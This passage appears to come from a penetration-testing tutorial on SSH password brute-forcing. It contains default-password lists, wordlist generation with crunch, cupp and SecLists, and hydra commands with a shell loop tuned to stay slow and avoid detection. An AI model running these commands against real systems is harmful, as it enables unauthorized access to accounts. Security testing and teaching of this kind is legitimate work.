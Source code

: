 ```bash
pi
oracle
postgres
mysql
EOF
```

#### Common Passwords File (passwords.txt)
```bash
cat > passwords.txt <<EOF
password
123456
admin
root
toor
Password1
Admin123
letmein
welcome
qwerty
abc123
EOF
```

#### Generate Custom Wordlists
```bash
# Using crunch (install: apt install crunch)
crunch 6 8 -t pass@@@@ -o passwords.txt
# Generates: pass0000, pass0001, ... pass9999

# Using cupp (Common User Passwords Profiler)
git clone https://github.com/Mebus/cupp.git
cd cupp
python3 cupp.py -i  # Interactive mode

# Download SecLists (huge collection)
git clone https://github.com/danielmiessler/SecLists.git
# Users: SecLists/Usernames/
# Passwords: SecLists/Passwords/
```

### Best Practices for Testing

#### 1. Rate Limiting (Avoid Detection)
```bash
# Slow and stealthy
hydra -L users.txt -P passwords.txt -t 1 -w 10 ssh://<IP>
# -t 1 = 1 thread only
# -w 10 = 10 second timeout

# Add delays between attempts
for user in $(cat users.txt); do
  for pass in $(cat passwords.txt); do
    hydra -l $user -p $pass ssh://<IP>
    sleep 5
  done
done
```
